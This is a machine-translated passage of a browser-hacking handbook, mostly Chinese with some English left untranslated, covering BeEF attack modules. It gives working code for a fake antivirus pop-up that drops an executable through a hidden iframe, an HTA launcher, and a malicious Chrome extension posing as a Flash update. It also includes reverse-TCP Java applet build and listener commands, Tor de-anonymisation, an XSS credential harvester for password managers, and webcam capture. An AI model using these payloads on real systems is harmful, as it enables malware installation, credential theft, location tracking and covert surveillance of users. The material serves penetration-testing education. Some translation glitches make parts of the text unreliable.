安全专业人士（包括本文作者）经常提醒大众，保持软件更新至关重要，尤其是当有未安装的安全补丁时。但实际上，即使采取了这些预防措施，在面对零日漏洞时，这些措施往往也不足，尤其是用户在弹出提示要求更新不安全软件时，往往会不假思索地点击“安装”或“确认”按钮。利用用户想要快速完成任务的心理，是利用信任的绝佳方式，不仅能让你进入目标系统，还能将其彻底打开。

罪犯常用相同的手段分发假安全软件或恶意软件。例如，一个对话框会提示用户安全软件已过时，必须安装最新版本。实际下载的软件并非所见，通常包含恶意载荷或假冒防病毒软件，需要付费才能激活。如果受害者提交了支付信息，诈骗就成功了。

有时为了让假对话框更具焦点，可以先使用全屏模态对话框或窗口遮 darkened 屏幕。以下 JavaScript 函数将帮助你实现这一点：


-   [灰色屏幕函数](https://example.org) 用于在屏幕上显示一个黑色的半透明遮罩层。执行 `grayOut(true)` 时，黑色元素会填满整个屏幕，透明度设置为 70%。执行 `grayOut(false)` 时，该元素的 `display` 属性被设置为 `none`，从而隐藏它。

```function grayOut(vis) {
  var dark=document.getElementById('darkenScreenObject');
  if (!dark) {
    var tbody = document.getElementsByTagName("body")[0];
    var tnode = document.createElement('div');
        tnode.style.position='absolute';
        tnode.style.top='0px';
        tnode.style.left='0px';
        tnode.style.overflow='hidden';
        tnode.style.display='none';
        tnode.id='darkenScreenObject';
    tbody.appendChild(tnode);
    dark=document.getElementById('darkenScreenObject');
  }
  if (vis) {
    var opacity = 70;
    var opaque = (opacity / 100);
    dark.style.opacity=opaque;
    dark.style.MozOpacity=opaque;
    dark.style.filter='alpha(opacity='+opacity+')';
    dark.style.zIndex=100;
    dark.style.backgroundColor='#000';
    dark.style.width='100%';
    dark.style.height='100%';
    dark.style.display='block';
  } else {
     dark.style.display='none';
  }
}
```

-   当执行 `grayOut(true)` 时，会出现一个黑色的半透明遮罩层，遮罩层的透明度为 70%，从而使其看起来像是暗化了背景。执行 `grayOut(false)` 则会把该元素的 `display` 属性恢复为 `none`，使其再次隐藏。

```function avpop() {
  avdiv = document.createElement('div');
  avdiv.setAttribute('id', 'avpop');
  avdiv.setAttribute('style', 'width:754px;height:488px;position:fixed;
    top:50%; left:50%; margin-left: -377px; margin-top: -244px;
    z-index:101');
  avdiv.setAttribute('align', 'center');
  document.body.appendChild(avdiv);
  avdiv.innerHTML= '<br>';
}
```

-   执行 `avpop()` 后，会在黑色遮罩层之上弹出一个假冒防病毒的图片对话框。通过为该图片添加点击事件，可以完成攻击循环：

```$j('#avclicker').click(function(e) {

  var div = document.createElement("div");
  div.id = "download";
  div.style.display = "none";
  div.innerHTML=
    "<iframe src='http://browserhacker.com/bad_executable.exe'
    width=1 height=1 style='display:none'></iframe>";
  
  document.body.appendChild(div);

  $j('#avpop').remove();
  grayOut(false);
});
```

-   当点击假冒防病毒图片时，会加载一个不可见的 iframe，从而下载位于 http://browserhacker.com/bad_executable.exe 的可执行文件。随后会移除假冒对话框和黑色遮罩层，使页面恢复到之前的状态。此方法的局限性在于，它仅用于下载可执行文件。

-   与之前提供可执行文件的示例不同，如果针对的浏览器是 Internet Explorer，可以诱导用户运行一个 HTML 应用程序（HTA）。简言之，HTA 将 Internet Explorer 的所有功能封装在不受浏览器严格安全模型和用户界面限制的环境中。例如，在 HTA 中运行的代码会忽略安全区域设置，从而可以轻松访问文件系统、注册表，甚至执行命令。因此，HTA 已被用于恶意活动，最早在 2007 年和 2008 年就出现过。令人惊讶的是，HTA 仍然在最新的 Internet Explorer 中可用，因而仍是有效的攻击向量。

-   下面的代码是一个简单的 Ruby Web 服务器，用于提供一个小型 HTA 应用程序：

```require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'

class Hta < Sinatra::Base
  before do
    content_type 'application/hta'
  end

  get "/application.hta" do
 "<script>new ActiveXObject('WScript.Shell')" + 
 ".Run('calc.exe')</script>"
  end
end

@routes = {
    "/" => Hta.new
}

@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("browserhacker.com", 4000, @rack_app)

Thin::Logging.silent = false
Thin::Logging.debug = true

puts "[#{Time.now}] Thin ready"
@thin.start
```

-   访问 `http://browserhacker.com:4000/application.hta` 将弹出如 Figure 5-17 所示的 HTA 警告对话框：

start figure 

[**Figure 5-17:** HTA warning


 end figure 

-   如 Figure 5-17 所示，对话框看起来像是由 Microsoft 开发的，但实际上并非如此。警告对话框没有任何文件来源的提示，这有助于诱导用户点击“允许”按钮。在此情况下，如果用户允许执行，calc.exe 将会运行。你可以在 browserhacker.com 上查看更高级的攻击示例。

-   为了优化此攻击，自动安装的浏览器扩展可能更为有效，具体取决于情况和目标浏览器。要真正执行负载，需要在目标浏览器中运行以下 JavaScript：

```grayOut(true);
avpop();
```

-   BeEF 包含相同的逻辑，并在其“Fake AV”模块中实现，当执行时，目标会看到类似 Figure 5-18 的内容：

start figure 

[**Figure 5-18:** Fake AV pop-up


 end figure 

-   BeEF 还有一个“Fake Flash Update”模块，它不再是诱导用户下载可执行文件，而是尝试诱导用户安装恶意浏览器扩展，如 Figure 5-19、Figure 5-20、Figure 5-21 和 Figure 5-22 所示。在此情形下，恶意扩展会部署并执行一个反向 Meterpreter 负载。第 7 章专门讨论扩展，因此这里不再详细展开。

start figure 

[**Figure 5-19:** Fake Flash dialog box


 end figure 

-   用户点击“安装”按钮后，Firefox 会显示如 Figure 5-20 所示的警告对话框。

start figure 

[**Figure 5-20:** First Firefox warning


 end figure 

-   警告对话框不止这些。如果用户点击“允许”，则会出现如 Figure 5-21 所示的安装确认对话框。

start figure 

[**Figure 5-21:** Extension Install dialog box


 end figure 

-   用户点击最终的“Install Now”按钮后，恶意扩展将被安装，随后提示用户重新启动浏览器，如 Figure 5-22 所示。

start figure 

[**Figure 5-22:** Restart dialog box


 end figure   start feature 

* * *

**Firefox Extension Dropper** BeEF 还提供一个名为“Firefox Extension Dropper”的模块，可用于社交工程和红队评估。恶意扩展会在用户允许安装时立即执行内置的二进制文件。正如 Michael Schierl 原先展示的，安装扩展后重新启动浏览器并非必要，因为使用的是已引导的扩展。由于只针对 Firefox 浏览器，你可能希望启用此模块。这样，一旦浏览器被钩住，用户就会立即被提示安装恶意扩展。

* * *

 end feature 

As you may have guessed from the previous figures, the module selected is targeting the Firefox browser. Not to worry, we haven’t left all you Chrome fans behind. Lucky for you, the module also comes with an optional payload targeting Chrome.


From Chrome 版本 20 起，你只能从合法的 Google Chrome 商店安装 Chrome 扩展程序，不能再从其他任何地方安装。然而，Luca Carettoni 和 Michele Orrú 的研究发现了一种绕过此限制的方法。他们发现，Google 在将扩展程序放入商店之前并未分析或调查这些扩展是否包含恶意或后门代码。随后，该扩展被用于窃取用户的所有 Cookie（包括标记为 HttpOnly 的 Cookie），从而获取访问 [www.meraki.com](http://www.meraki.com) 云门户的权限。

Figure 5-23 演示了该恶意扩展程序在 Chrome 商店内可用时的行为。

start figure 

**Figure 5-23:** 恶意 Chrome 扩展程序


end figure 

该恶意 Chrome 扩展程序由几张图片和两个文件组成，即 `manifest.json` 文件和 `background.js` 文件。`manifest.json` 包含以下内容：

```
{
  "name": "Adobe Flash Player Security Update",
  "manifest_version": 2,
  "version": "11.5.502.149",
  "description":
    "Updates Adobe Flash Player with latest security updates",
  "background": {
    "scripts": ["background.js"]
  },
  "content_security_policy":
  "script-src 'self' 'unsafe-eval' https://browserhacker.com;
    object-src 'self'",
  "icons": {
    "16": "icon16.png",
    "48": "icon48.png",
    "128": "icon128.png"
  },
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "file://*/*",
    "cookies"
  ]
}
```

而 `background.js` 文件包含以下代码：

```
d=document;
e=d.createElement('script');
e.src="https://browserhacker.com/hook.js";
d.body.appendChild(e);
```

`manifest.json` 中的 `background` 字段表明该扩展程序会执行 `background.js` 文件。`background.js` 会在当前文档中创建一个新的 `<script>` 元素，指向 BeEF hook，由于扩展程序在浏览器内部运行且拥有对所有标签页的控制，用户打开 Chrome 后，你即可通过 BeEF 控制浏览器中所有发生的事情。

恶意浏览器扩展程序时常被用于各种恶意目的。最早的媒体报道之一涉及针对 Facebook 巴西用户的恶意 Firefox 和 Chrome 扩展程序。26 想了解更多吗？你将在第 7 章中进一步详细探讨浏览器扩展程序。

### 使用 Clippy

Microsoft 的 Office 助理，通常称为 Clippy，是微软用于 Microsoft Office 的智能帮助工具。它于 1997 年推出，成为了所有不防备的 Office 用户的噩梦——就在用户准备开始输入文档时，讨厌的 Clippy 会弹出一系列问题。Clippy 受到用户（包括微软员工）的大量批评，最终在 Office 2007 被移除。27

Nick Freeman 和 Denis Andzakovic 对 Clippy 的消失感到惋惜，于是他们创建了 “Clippy” 模块。Avery Brooks 在其 “Heretic Clippy” 项目中编写了原始代码，该项目可从 [`clippy.ajbnet.com/`](http://clippy.ajbnet.com/) 获得。生成的 BeEF 模块是一个完全基于 JavaScript 的可配置浏览器 Clippy。默认情况下，该模块会诱骗用户下载可执行文件。

该模块结构高度模块化，允许在部署和使用时具有灵活性。其核心是 Clippy 控制器，定义默认选项并将 Clippy 及其对话框放置在浏览器右下角。在 Clippy 控制器的 `run()` 方法中，你可以添加任意数量的 `HelpText` 对象集合，每个对象在 Clippy 重新启动时会随机弹出。`run()` 方法还会构建并淡入 `ClippyDisplay` 对象。

实现该功能的代码如下：

```
Clippy.prototype.hahaha = function() {
  var div = document.createElement("div");
  var _c = this;
  div.id = "heehee";
  div.style.display = "none";
  div.innerHTML="<iframe src='http://browserhacker.com/calc.exe' 
    width=1 height=1 style='display:none'></iframe>";
  
  document.body.appendChild(div);
  _c.openBubble("Thanks for using Clippy!");
  setTimeout(function () { _c.killClippy(); }, 5000); 
}
```

`_c.openBubble()` 调用会弹出一个 `PopupDisplay` 对话框，看起来像是 Clippy 的气泡。该函数同时调用 `_c.killClippy()` 结束 Clippy。此逻辑在 Clippy 的 `run()` 方法中通过添加 `HelpText` 对象时被调用，如下所示：

```
var Help = new HelpText("Would you like to update your browser?");
  Help.addResponse("Yes",function() { _c.hahaha(); });
  Help.addResponse("Not now", function() {
    _c.killClippy();
    setTimeout(function() {
      new Clippy().run();
    }, 5000);
  });
this.addHelp(Help,true);
```

`HelpText` 对象 `Help` 包含一个默认问题和两个回答。`Yes` 响应执行前面的 `hahaha()` 函数，而 `Not now` 响应则结束 Clippy，并在 5 秒后重新启动 Clippy。`this.addHelp()` 调用将 `Help` 对象加入 Clippy，使你可以在需要时添加更多问题供 Clippy 使用。你可以在 Figure 5-24 中看到 Clippy 的实际效果。

start figure 

**Figure 5-24:** Clippy 在 acción 中


end figure 

尽管该模块具备一定的幽默价值，但事实上，有些人可能会真的被 Clippy 对话框中要求更新软件的提示所欺骗。在此情形下，它仍然可以作为一种机制，在受害者电脑上投放可执行文件。

### 使用已签名的 Java Applet

在本章之前，你已经了解了多种诱骗用户执行操作的方法，包括展示假登录框和其他钓鱼尝试，诱导用户泄露敏感信息。另一种常见手段是利用已签名的 Java Applet 诱导用户运行恶意代码，该代码可能拥有超出浏览器权限的权限，例如通过 Java 直接执行系统命令。技术细节在第 8 章更为深入，但社交工程层面的诱骗始终是需要克服的障碍。

BeEF 的 “Java Payload” 模块最初于 2009 年加入，旨在向当前被钩住的浏览会话加载已签名的 Java Applet。该 Applet 具备反向 TCP 连接能力，可通过 BeEF 附加到用户的钩住页面，并在用户授予运行权限后，在目标机器上执行任意命令。正如第 4 章 “绕过 SOP” 中 Java 部分所讨论的那样，Java 仍被许多大型企业广泛使用。即便在 Click to Play 限制的情况下，这些攻击仍对运行完整补丁版本的 Java 用户极具威胁。 Immunity 团队也曾评论称，已签名的 Java Applet 在此类场景中仍被广泛使用。28 Figure 5-25 展示了当用户执行 BeEF 自签名 Java Applet 时可能出现的警告对话框。

start figure 

**Figure 5-25:** 自签名 Java Applet 安全对话框


end figure 


If the applet is signed with a legitimate code-signing certificate, such as those offered from Symantec or any of the other SSL vendors, the applet will not display a security dialog box to the user. To increase the likelihood that the applet will execute with minimal security warnings, it will be worthwhile to purchase a code-signing certificate. The implications of signing malicious code, for example Windows binaries, were discussed previously in the “Abusing UI Expectations” section.

BeEF relies on Michael Schierl’s JavaPayload, available from [`https://github.com/schierlm/JavaPayload`](https://github.com/schierlm/JavaPayload). After downloading it you need to build the payload for the victim. One of the benefits of using JavaPayload is that you can specify the attack vector you want to use. JavaPayload can be compiled not only as an applet, but also as a generic agent to attach to an existing Java process. More advanced usage, which may come in handy in particular situations, includes an OpenOffice BeanShell macro (written in Java) and a JDWP (Java Debugger Wire Protocol) loader. From the command line, assuming all prerequisites are met, you can build the payload by executing the following:

```java -cp JavaPayload.jar javapayload.builder.AppletJarBuilder ReverseTCP
```

This command will build the Applet_ReverseTCP.jar file. Before you can push it out to the victim, you need to sign it. For demonstration reasons, you can self-sign the JAR file. However, as mentioned earlier, to reduce the likelihood of detection this can be signed with a legitimate certificate too. To self-sign the JAR, execute the following from the command line, which will create the keyfile as specified:

```keytool -keystore <keyfile> -genkey
jarsigner -keystore <keyfile> Applet_ReverseTCP.jar mykey
```

Once the applet executes on the target’s computer, it will attempt to connect back to your machine. Therefore, it’s important to remember to start your listener before you execute this payload against the target. To start the listener, execute the following from the command line:

```java -cp JavaPayload.jar javapayload.handler.stager.\StagerHandler ReverseTCP <Listening IP>\
<Listening TCP Port> -- JSh
```

The “Java Applet” module relies on BeEF’s beef.dom.attachApplet() function, which for brevity we have not shown here, but you can review at [`https://browserhacker.com`](https://browserhacker.com). The JavaScript code required to attach the earlier-created applet would be something similar to this:

```beef.dom.attachApplet(applet_id,
  applet_name,
  'javapayload.loader.AppletLoader',
  null,
  applet_archive,
  [{'argc':'5',
    'arg0':'ReverseTCP',
    'arg1':attacker_ip,
    'arg2':attacker_port,
    'arg3':'--',
    'arg4':'JSh'}]
);
```

The function uses the following configuration options:

*   applet_id—A random applet identifier.

*   applet_name—A random applet name; there’s nothing stopping this from being something such as “Microsoft.”

*   applet_archive—The URL to the Applet_ReverseTCP.jar constructed earlier.

*   attacker_ip—The IP address of the listening service.

*   attacker_port—The TCP port of the listening service.

To truly optimize this attack, especially in light of Java dialog boxes that may appear, it’s worth performing these attacks with additional fraudulent content defacements or other social-engineering tricks. This may be as simple as displaying a fake notification to the user stating, “We apologize, but due to changes in our website configuration you may receive an applet warning dialog, this is expected and must be accepted, otherwise content will not be available.”

start feature 

* * *

**Signed Applet Dropper** If JavaPayload doesn’t suit your needs, then use BeEF’s “Signed Applet Dropper” module. It works in a similar way to the “Firefox Extension Dropper.” The difference is that when the target user allows the signed applet to run (if signed with an untrusted code signing certificate), the applet will download the dropper dynamically and execute it. The dropper is then deleted after execution. The dropper can easily be a binary with a Meterpreter backdoor, which connects back to a reverse handler via an HTTPS or DNS communication channel. You don’t have to use Meterpreter; you can use any Remote Access Tool (RAT) of choice. Targeting Internet Explorer can achieve the best results because, at the time of this writing, it lacked a complete Click to Play implementation. 

* * *

 end feature 

Once executed, the target will connect back to your Java listener, and the terminal should respond by displaying a “!” character. From there, you can type help to display a list of commands (see `Figure 5-26`), such as ls, that will list the contents of the current folder (as shown in `Figure 5-27`). You will further explore remote code execution, particularly as executed through exploiting plugins, in Chapter 8. Of course, once this level of access is acquired on a target’s machine, there’s nothing preventing you from executing any commands you like.

start figure 

**Figure 5-26:** Java Payload help command


 end figure  start figure 

**Figure 5-27:** Java Payload ls command


 end figure 

For the full module code listing, don’t forget to visit [`https://browserhacker.com`](https://browserhacker.com) or the Wiley website at: [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook).

start feature 

* * *

**BeEF’s Fake Notification Module** A number of quick-and-dirty modules exist within BeEF to display various notification bars, impersonating Internet Explorer 8, Firefox and Chrome notification bars. The “Fake Notification Bar (IE)” module can be used in a pinch and simply requires the attacker to specify the notification text. This is demonstrated in `Figure 5-28`. start figure  

**Figure 5-28:** BeEF’s Fake Notification Bar (IE) module in action

 end figure  

* **

 end feature 

As you have learned in this section, the number of ways in which a user’s trust can be broken is fairly extensive. Indeed, these techniques are in no way meant to represent every single trick available up a penetration tester’s sleeve. What’s also important to note from this section is that a number of these techniques branch out of the pure social engineering space. In fact, many of these examples are implemented through a layered approach, where a degree of social engineering is applied to then take further advantage of a technical problem within browsers or their various augmentations.

# Privacy Attacks

When web browsers first started to become popular, there wasn’t much thought put into the concept of maintaining a user’s privacy. Over time, as the number of web applications increased, particularly those dealing with potentially personal information, this started to change. Most modern browsers are quite conscious of keeping their users’ information private; some have even gone so far as to offer private browsing modes. The feature is known by many different names on different browsers, such as:

*   Chrome’s Incognito mode

*   Internet Explorer’s InPrivate browsing

*   Opera’s Private tab or window

*   Firefox’s Private browsing

*   Safari’s Private browsing

Browsers in private mode will often have some part of the user interface modified to represent the change in mode. `Figure 5-29` demonstrates how Chrome distinguishes between normal and Incognito mode.

start figure 

**Figure 5-29:** Chrome’s Incognito mode


end figure 

截至本文撰写时，仍不存在一种简单方法可以检测浏览器是否处于隐私模式。早期由 Jeremiah Grossman29 和 Collin Jackson30 进行的研究表明，较旧的浏览器版本（如 Firefox 1.5/2.0）可能会泄露它们是否处于隐私模式。研究人员通过 JavaScript getComputedStyle 函数（如第 4 章“利用浏览器历史记录”部分所述）来实现这一点。

仅需知道请求服务器的源 IP 地址，就能确定客户端的地理位置，如果不是区域层面，至少可以确定到国家边界内。

这并不意味着隐私在其他地方不受重视。例如，Electronic Frontier Foundation（EFF）一直在前线维护人们的隐私、自由言论以及其他消费者权利。另一个旨在保护在线匿名性的项目是 Tor 项目，最初称为 The Onion Router 项目。

在本节的其余部分，您将更详细地探索 Tor 网络，并了解一些可以用于绕过浏览器中已有的隐私机制的技巧。

## 非 Cookie 会话跟踪

尽管本节可能不如偷窥无辜目标的网络摄像头那样吸引人，但跟踪用户在 Internet 上的浏览行为同样有用。在第 4 章中，您已经获得了关于浏览器历史记录的大量信息，请参考该章节以获取更多此类信息泄露的背景。

当人们讨论跟踪浏览器会话时，通常指的是 Cookie 作为主要技术。您可以在第 6 章“绕过 Cookie 防护”部分了解更多关于 Cookie 的内容。

如果用户清除了 Cookie，或者针对特定站点禁用了 Cookie，在这种情况下，Cookie 单独无法用于跨多个站点或访问进行用户跟踪。

为使不可破坏的 Cookie 更可行，Samy Kamkar（第 2 章中讨论的著名 Samy 蠕虫作者）提出了 Evercookie。Evercookie 通过 [`samy.pl/evercookie/`](http://samy.pl/evercookie/) 获取，采用多层次方式存储可提取的会话标识符。它不单纯依赖普通 HTTP Cookie，而是利用多种其他 artifact，包括：

*   本地共享对象或 Flash Cookie

*   Silverlight 存储

*   IE userData 存储

*   HTML5 存储

为提高框架返回浏览器会话可识别的可能性，BeEF 会话 JavaScript 库使用 Evercookie JavaScript 库。这一点在 BeEF 的 get_hook_session_id() 函数中可见，该函数查询三种 Evercookie artifact：cookie、userdata、window data：

```javascript
//Create the evercookie object first
ec: new evercookie(), 
  

get_hook_session_id: function() {
  // check if the browser is already known to the framework
  var id = this.ec.evercookie_cookie("BEEFHOOK");
  if (typeof id == 'undefined') {
    var id = this.ec.evercookie_userdata("BEEFHOOK");
  }
  if (typeof id == 'undefined') {
    var id = this.ec.evercookie_window("BEEFHOOK");
  }
  
  // if the browser is not known create a hook session id and set it
  if ((typeof id == 'undefined') || (id == null)) {
    id = this.gen_hook_session_id();
    this.set_hook_session_id(id);
  }
  
  // return the hooked browser session identifier
  return id;
}
```

虽然这不是直接可利用的漏洞，但值得注意的是，上网时不断留下的 Internet 活动痕迹。

## 绕过匿名化

作为攻击者，了解目标浏览器是否通过 Tor 来隐藏其流量可能很有价值。那么，如何检测这一点呢？

Tor 网络的一个有趣特性是任何人都可以提供隐藏服务（仅限于 Tor 网络内可访问）。这称为隐藏服务协议（Hidden Service Protocol），它实现服务器端匿名化，而非仅客户端端匿名化。关于隐藏服务协议的技术细节在此书范围之外，如需更多信息，可访问 [`www.torproject.org/docs/hidden-services.html.en`](https://www.torproject.org/docs/hidden-services.html.en)。

由于这些匿名化服务仅能在 Tor 网络内访问，它们为判断被钩住的浏览器是否使用 Tor 提供了方法。DeepSearch 是一个仅限 Tor 网络的搜索索引，其地址为 [`xycpusearchon2mc.onion`](http://xycpusearchon2mc.onion)。.onion 是伪顶级域名，用于标识 Tor 隐藏服务。虽然它看起来像合法顶级域名，但实际上并非如此，仅在正确配置本地代理并连接到 Tor 网络时才可访问。

DeepSearch 包含一个标题徽标，网址为 [`xycpusearchon2mc.onion/deeplogo.jpg`](http://xycpusearchon2mc.onion/deeplogo.jpg)，如果浏览器能够访问该图像，则表明浏览器正在 Tor 网络上。

BeEF 的“Detect Tor”模块通过执行以下 JavaScript 代码来检测 Tor 使用情况：

```javascript
var img = new Image();
  img.setAttribute("style","visibility:hidden");
  img.setAttribute("width","0");
  img.setAttribute("height","0");
  img.src = '<%= @tor_resource %>';
  img.id = 'torimg';
  img.setAttribute("attr","start");
  img.onerror = function() {
    this.setAttribute("attr","error");
  };
  img.onload = function() {
    this.setAttribute("attr","load");
  };

  document.body.appendChild(img);

  setTimeout(function() {
    var img = document.getElementById('torimg');  
    if (img.getAttribute("attr") == "error") {
      beef.net.send('<%= @command_url %>',
        <%= @command_id %>,
        'result=Browser is not behind Tor');
    } else if (img.getAttribute("attr") == "load") {
      beef.net.send('<%= @command_url %>',
        <%= @command_id %>,
        'result=Browser is behind Tor');
    } else if (img.getAttribute("attr") == "start") {
      beef.net.send('<%= @command_url %>',
        <%= @command_id %>,
          'result=Browser timed out. \
           Cannot determine if browser is behind Tor');
    };
    document.body.removeChild(img);
    }, <%= @timeout %>);
```

此代码首先创建一个指向 DeepSearch 徽标的 `` 标签，其 URL 通过 @tor_resource 变量动态设置。随后为图像绑定两个事件处理程序：一个在加载成功时触发，另一个在加载失败时触发。最后将图像添加到文档的 body 中，从而向 DeepSearch 服务器提交请求。

`setTimeout()` 函数用于在预定义的时间后检查图像的状态。默认情况下，@timeout 变量设置为 10,000（即 10 秒）。当计时器结束后，代码会检查图像的状态，以判断其是否已加载。如果图像已加载，则说明浏览器处于 Tor 网络内。

如果浏览器使用的是像 Tor 这样的匿名化代理，那么尝试获取用户的真实 IP 地址可能会进一步泄露其私人信息。这可以通过多种方式实现。

第一种方法是强制浏览器向您控制的 DNS 服务器进行 DNS 请求。如果浏览器配置为通过 Tor 代理所有流量，但不代理 DNS 请求，这可能会泄露有价值的信息。与之前的示例相同，这可以通过简单地向 DOM 添加一个指向由您控制的 DNS 服务器解析的域名的 `` 对象来实现。


第二种可以帮助你确定 IP 地址的技术是加载 Java Applet 或 Flash 文件。如果 Flash 或 Java 未配置为使用 Tor 代理，这些文件可能被构造为仅尝试查询攻击者控制的 Web 服务器上一个唯一图像或其他文件。如果插件未配置使用浏览器代理设置，这些请求可能会泄露目标的真实 IP。

另一种绕过匿名化的方法是使用 BeEF 的“获取实际位置”模块。该模块由 Keith Lee 开发，功能比单纯检测目标源 IP 更进一步。它会根据邻近的无线接入点使用封装在已签名 Java Applet 中的命令来获取地理位置信息。如果目标使用 Windows，Applet 会执行以下命令来获取所有邻近的无线网络：

```
netsh wlan show networks mode=bssid
```

如果目标使用 OS X，则命令为：

```
/System/Library/PrivateFrameworks/Apple80211.\
framework/Versions/Current/Resources/airport scan
```

执行这些命令后，Applet 会解析结果，提取 SSID、BSSID 和信号强度，并用于查询 Google Maps API（https://maps.googleapis.com/maps/api/browserlocation/json?browser=firefox&sensor=true）。检测到的邻近无线网络越多，地理定位越准确。Google Maps API 可能还会返回街道地址详情以及 GPS 坐标。

利用此方法，只要目标允许已签名 Java Applet 运行，即使其浏览器在 Tor 或其他代理后面，也能被定位。Kyle Wilhoit 在 2013 年成功使用这种攻击手段确定了针对工业控制系统（ICS）设备的中国攻击者的实际位置。31 在 2013 年 BlackHat USA 讲话中，他公开了用于追踪攻击者的部分技术。这些技术中包括使用 ICS 蜜罐配合 BeEF，在攻击者的被钩挂浏览器上加载“检测 Tor”和“获取实际位置”模块。

## 攻击密码管理器

密码管理软件帮助用户存储和检索密码。密码管理器（在第 7 章中也有探讨）通常作为浏览器的原生功能被包含，也可以作为独立应用。密码管理器应用与浏览器集成的情况也很常见。遗憾的是，在很多情况下这些工具会暴露你的信息。许多网站在安全演进过程中会逐步启用安全特性。对密码管理器的主要防护措施是对表单元素的控制，特别是在密码提交时。这通常涉及添加 autocomplete="off" 标记，以防止浏览器缓存该表单字段。

Ben Towes 关于利用 XSS 漏洞滥用密码管理器的研究提出了一个良好的框架，用于攻击可能被缓存的表单字段。通过使用 JavaScript 库，即使表单元素已禁用自动填充（autocomplete="off"），仍然可以在存在 XSS 漏洞的页面上利用已保存的凭据。

要利用这种情况，你首先需要在目标页面中找到 XSS 向量。随后，确定用于用户名和密码的字段名称。确定字段名后，只需用 JavaScript 动态创建一个表单，等待片刻让浏览器自动填充，然后将数据发送回攻击者。

为简化执行，Towes 将上述逻辑封装到外部 JavaScript 文件中，以便在 XSS 攻击中直接引用。下面的代码示例使用了一个库，它会检查三种用户名字段变体：user、username、un；以及三种密码字段变体：pass、password、pw：

```
function getCreds(){
  var users = new Array('user','username','un');
  var pass = new Array('pass','password','pw');
  un = pw = "";

  for( var i = 0; i < users.length; i++)
  {
    if (document.getElementById(users[i])) {
      un += document.getElementById(users[i]).value;
    }
  }

  for( var i = 0; i < pass.length; i++)
  {
    if (document.getElementById(pass[i])) {
      pw += document.getElementById(pass[i]).value;
    }
    
  }
  alert(un + "|" + pw);
  document.getElementById('myform').style.visibility='hidden';
  window.clearInterval(check);
}
document.write(" <div id='myform'> <form > <input type='text' name='user'");
document.write(" id='user' value='' autocomplete='on' size=1> <input ");
document.write("type='text' name='username' id='username' value='' ");
document.write("autocomplete='on' size=1> <input type='text' name='un'")
document.write(" id='un' value='' autocomplete='on' size=1> <input type=");
document.write("'password' name='pass' id='pass' value='' autocomplete='on'><br> <input type='password' name='password' id='password' ");
document.write("value='' autocomplete='on'><br> <input type='password' name='pw' id='pw' value='' autocomplete='on'><br> </form>");
document.write("</div>");
check = window.setInterval("getCreds()",100);
```

在本例中，需要在存在 XSS 漏洞的页面中通过 `<script>` 标签引入该 JavaScript 文件。代码会在 `<div>` 中创建一个隐藏的表单，并设置定时器每 100 ms 调用 `getCreds`。完成后，会弹出提示框显示用户名和密码（如图 5‑30 所示）。

<|ref|>start|>figure<|/ref|><|det|>[[50, 340, 490, 480]]<|/det|>

<|ref|>end|>figure

弹出提示框显示用户名和密码后，代码会隐藏表单。在真实场景中，你会改为使用 XMLHttpRequest POST 请求将表单数据提交到目标站点。此示例在 Chrome 和 Firefox 中可用，但由于 Internet Explorer 将凭据绑定到页面而非源，效果会不佳。

Brendan Coles 的“获取存储凭据”模块在 BeEF 中使用类似逻辑，通过在 Firefox 浏览器中隐藏的 `<iframe>` 遍历所有密码表单输入，并将表单内容提交回 BeEF 服务器。

## 控制网络摄像头和麦克风

除了物理位置，浏览器还能披露其他敏感信息。如今许多电脑配备内置麦克风，甚至部分笔记本电脑内置摄像头。随着这类技术成本下降，以及笔记本厂商希望简化在线沟通，这类设备的普及程度可能成为新笔记本的默认配置。

BeEF 提供两个实验性模块，通过 Flash 与目标的摄像头交互。第一个是由 Ben Waugh 创作的“摄像头权限检查”模块（Webcam Permission Check），它会在后台透明地判断浏览器是否允许访问摄像头或麦克风。第二个是“摄像头”模块，它会尝试打开摄像头并拍摄多张照片。这两个模块都附带了一个预包装的 SWF 文件，该文件通过 JavaScript 函数与浏览器的 DOM 交互。为简化 SWF 的加载，BeEF 同时预加载了 `swfobject.js`，它暴露了 `swfobject.embedSWF()` 函数。

在“摄像头权限检查”模块中，需要在加载 SWF 文件之前定义以下全局 JavaScript 函数：

* `noPermissions`
* `yesPermissions`
* `naPermissions`


另一个需要预定义的函数是 swfobject.embedSWF() 函数的回调函数；在此示例中是 swfobjectCallback，如下所示：

``` 
var swfobjectCallback = function(e) {
  if(e.success){
      beef.net.send("<%= @command_url %>",
       <%= @command_id %>,
       "result=Swfobject successfully added flash object \
        to the victim page");
  } else {
      beef.net.send("<%= @command_url %>",
       <%= @command_id %>,
       "result=Swfobject was not able to add the swf file \
        to the page. This could mean there was no flash \
        plugin installed.");
  }
}
```

此函数会向 BeEF 服务器报告 SWF 文件是否已加载。在调用 swfobject.embedSWF() 函数之前，swfobject.js 必须正确加载到 DOM 中。jQuery 的 getScript() 函数可以帮助完成此类调用，它会获取远程脚本，并在下载成功后运行另一个函数。这优化了是否调用 swfobject.embedSWF() 函数，如下代码片段所示：

``` 
$j.getScript(beef.net.httpproto+'://'+beef.net.host+
    ':'+beef.net.port+'/swfobject.js',
    function(data,txtStatus,jqxhr) {
      var flashvars = {};
      var parameters = {};
      parameters.scale = "noscale";
      parameters.wmode = "opaque";
      parameters.allowFullScreen = "true";
      parameters.allowScriptAccess = "always";
      var attributes = {};
      swfobject.embedSWF(
        beef.net.httpproto+'://'+beef.net.host+
        ':'+beef.net.port+'/cameraCheck.swf",
        "main", "1", "1", "9", "expressInstall.swf",
        flashvars, parameters, attributes, swfobjectCallback
      );
    }
);
```

SWF 文件随后会嵌入 DOM，并执行 cameraCheck.swf。cameraCheck.swf 会检查是否支持网络摄像头，然后根据摄像头的状态向 DOM 发出回调，执行之前定义的全局函数。如果摄像头在特定网站上已全局启用（见 Figure 5-31），cameraCheck.swf 会执行 yesPermissions JavaScript 函数。

start figure 

**Figure 5-31:** OS X Flash Camera and Microphone Settings


end figure 

BeEF 的“Webcam”模块利用与 Flash 功能非常相似的方式运行 takeit.swf 文件。一旦该 Flash 文件在浏览器中运行，它会尝试拍摄若干网络摄像头照片。与之前对摄像头访问的限制类似，运行此模块会提示用户接受启用摄像头的权限，如 Figure 5-32 所示。

start figure 

**Figure 5-32:** Flash Permission dialog box


end figure 

